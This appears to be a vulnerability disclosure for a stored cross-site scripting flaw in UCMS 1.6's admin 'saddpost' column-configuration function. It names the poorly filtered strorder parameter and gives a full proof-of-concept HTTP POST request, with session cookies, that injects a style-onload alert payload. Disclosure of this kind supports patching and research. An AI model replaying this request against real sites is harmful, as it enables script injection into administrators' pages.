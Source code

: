 # UCMS1.6 saddpost.php cross site scripting


Vendor Homepage: http://uuu.la/

UCMS 1.6 installation package： http://uuu.la/uploadfile/file/ucms_1.6.zip

Version: V 1.6.0

Vulnerability description： UCMS 1.6 was discovered to contain a cross-site scripting (XSS) vulnerability via the "Column configuration"(栏目配置)-"Variable name module"(变量名模块) under the Site Management page.

Vulnerability recurrence： The filtering of `$strorder` is not strict in the adding method of the file `\ucms_1.6\ucms\sadmin\saddpost`

![](https://tale-1259367723.cos.ap-beijing.myqcloud.com/2023/04/25/16824049759099.jpg)
```
POST /ucms_1.6/ucms/index.php?do=sadmin_saddpost HTTP/1.1
Host: 10.211.55.7
Proxy-Connection: keep-alive
Content-Length: 531
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://10.211.55.7
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://10.211.55.7/ucms_1.6/ucms/index.php?do=install
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: admin_5a298d=admin; psw_5a298d=11588e274d6c1b23f3997fb435480270; token_5a298d=842df413; PHPSESSID=o3ppmlrbn6epa7v9otb6qlp0b5

strcid=0&uuu_token=842df413&strname%5B%5D=%E7%AB%99%E7%82%B9%E6%A0%87%E9%A2%98&inputkind%5B%5D=1&strorder%5B%5D=5&strname%5B%5D=%E5%85%B3%E9%94%AE%E8%AF%8D&inputkind%5B%5D=1&strorder%5B%5D=%E6%8F%8F%E8%BF%B0%3Cstyle+onload%3Dalert%281%29%3E &strname%5B%5D=%E6%8F%8F%E8%BF%B0%3Cstyle+onload%3Dalert%281%29%3E&inputkind%5B%5D=2&strorder%5B%5D=15&strname%5B%5D=logo%E5%9B%BE%E7%89%87&inputkind%5B%5D=5&strorder%5B%5D=20&strname%5B%5D=%E5%A4%87%E6%A1%88%E5%8F%B7&inputkind%5B%5D=1&strorder%5B%5D=25&strname%5B%5D=%E7%BB%9F%E8%AE%A1%E4%BB%A3%E7%A0%81&inputkind%5B%5D=2&strorder%5B%5D=30
```
![](https://tale-1259367723.cos.ap-beijing.myqcloud.com/2023/04/25/16824050267261.jpg)




